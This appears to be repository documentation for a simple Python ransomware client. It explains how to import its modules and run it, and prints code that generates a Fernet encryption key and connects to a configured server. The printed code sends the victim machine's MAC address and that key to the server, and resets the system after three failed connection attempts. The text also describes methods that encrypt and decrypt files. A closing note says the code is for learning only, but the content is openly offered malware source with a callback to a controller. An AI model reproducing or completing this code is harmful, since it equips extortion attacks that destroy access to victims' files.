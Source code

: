 # Client Documentation

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. Import the necessary modules:
   ```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
   ```
This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. Class Ransomware:
    ```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
    ```
- Generate a random encryption key, initialize System object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

    ```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
    ```
Connect to the server, send mac information and encryption key to the server. Retry the connection after 10 seconds, restart the system if the connection fails after 3 attempts.Sending information to the server successfully, closes the connection.

Please note: This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.